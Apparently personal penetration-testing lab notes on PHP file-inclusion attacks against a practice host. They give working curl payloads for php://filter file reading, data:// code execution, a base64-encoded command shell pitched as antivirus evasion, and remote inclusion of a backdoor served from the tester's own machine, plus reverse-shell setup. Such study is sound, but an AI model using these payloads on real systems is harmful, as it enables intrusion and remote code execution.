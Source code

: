 php://filter wrapper to display contents of files with or without encoding 

we can display .php files instead of exeing them with php://filter as well

with command like:
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
could be same as without php://filter

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
using base64 encode to view admin.php content so that the LFI vulnerability doesn't just exe the code instead of showing it

decoding: echo "<content>" | base64 -d

data://for code execution, for plaintext or base64-encoding
alternative to when poisoning of local file with php fails


curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
this run ls

web app and firewalls filters for strings like windows AV deleteing this file

we can encode with base 64:
echo -n '<?php echo system($_GET["cmd"]);?>' | basse64

and run with:
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

this gets around AV by hiding the php cmd shell comman


Remote FIle inclusion

not as common as  LFI, for php server allow_url_include needs to bee on different server may vary

data:// wrapper also needs allow_url_include

include friles from a remote system over HTTP or SMB

kali has a bunch of php payloads at /usr/share/webshells/php

to use the webshell we need to create a reverse reverse shell

python3 -m http.server 80 
this opens a http server on port 80 with pyhton

using curl:
curl "http://<domain>/meteor/index.php?page=http://<myip>/simple-backdoor.php&cmd=<command>"

when using the ptentestmnokey's php reverse shell remember to change the ip to my vpn ip, this shell actually give me a proper bash console default port is 4444


File upload vulnerabilies

exe files:
depending on web app and use, we can make educated guesses to locate upload mechanisms
